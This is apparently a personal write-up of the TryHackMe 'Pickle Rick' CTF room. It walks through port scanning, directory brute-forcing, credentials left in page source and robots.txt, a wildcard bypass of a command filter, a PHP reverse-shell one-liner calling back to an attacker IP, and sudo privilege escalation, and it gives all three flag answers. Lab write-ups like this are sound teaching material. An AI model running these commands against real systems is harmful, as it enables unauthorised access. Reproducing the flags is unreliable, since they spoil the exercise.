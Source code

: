 # Writeup Pickle Rick challenge (THM)

![logo_machine](https://tryhackme-images.s3.amazonaws.com/room-icons/47d2d3ade1795f81a155d0aca6e4da96.jpeg)

The following challenge is hosted by TryHackMe and aims at exploiting a web server in order to find three ingredients in order to help Rick, who wants to create a potion.
Let's begin.

## Website

* In source code there is this comment:
"
    Note to self, remember username!

    Username: R1ckRul3s
  "

* run nmap command:
```
nmap -sV -A -T4 10.10.38.165 -oN nmap.txt
```
Result:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2023-05-01 12:10 CEST
Nmap scan report for 10.10.38.165
Host is up (0.085s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 48:2b:8f:aa:8a:8b:0f:4c:9e:5e:ed:bc:14:89:22:39 (RSA)
|   256 a4:d6:64:ec:c4:db:82:2f:63:65:b3:e1:66:a6:91:44 (ECDSA)
|_  256 0d:8e:10:0b:cd:94:20:b4:41:21:ac:14:62:d6:8b:77 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.51 seconds
```

* in /robots.txt find string *Wubbalubbadubdub*

* connecting to port 22 (ssh) using username R1ckRul3s and passwrod Wubbalubbadubdub doesn't work (error: R1ckRul3s@10.10.38.165: Permission denied (publickey).)

* tried to find hidden files/strings in images in assets/ directory: nothing found

* run
```
nikto -h 10.10.38.165
```

* meglio gobuster con php extension:
```
gobuster -w /usr/share/wordlists/directory-list-2.3-small.txt -u http://10.10.38.165/ -t 20 -x php
```

result:

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.38.165/
[+] Threads      : 20
[+] Wordlist     : /usr/share/wordlists/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2023/05/01 12:51:37 Starting gobuster
=====================================================
/login.php (Status: 200)
/assets (Status: 301)
/portal.php (Status: 302)


* go to *login.php* and use credetials R1ckRul3s:Wubbalubbadubdub

![img3](/images/pickle_rick-thm/img3.png?raw=true)

## First ingredient

* run ```ls``` command in command panel and get these results:
**Sup3rS3cretPickl3Ingred.txt**
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt

* we need to cat Sup3rS3cretPickl3Ingred.txt file but a filter is placed

![img4](/images/pickle_rick-thm/img4.png?raw=true)


* bypass it using the following command

![img5](/images/pickle_rick-thm/img5.png?raw=true):

```
/bin/c?t Sup3rS3cretPickl3Ingred.txt
```
first flag found: mr. meeseek hair

## Second ingredient

* read *clue.txt* file with ```/bin/c?t clue.txt``` and it states:
*Look around the file system for the other ingredient.*

* in */home/rick* there is *second ingredients* file (```ls -l /home/rick```)

* lets cat it: ```/bin/c?t "/home/rick/second ingredients"``` (fai reference a livello
  di bandit in cui spiego come si fa cat in file che contiene spazie nel nome)

  2nd ingredient: 1 jerry tear

## Third ingredient

* rev shell using php

![img6](/images/pickle_rick-thm/img6.png?raw=true):

```
php -r '$sock=fsockopen("10.8.12.35",1234);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

* cat php files in order to understand how to open other tabs in portal.php page

* use ```sudo -l``` to priv esc, result:
```
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-100-151.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-100-151.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
so all the commands can be run by www-data

* then:

![img8](/images/pickle_rick-thm/img8.png?raw=true)

3rd ingredient: fleeb juice

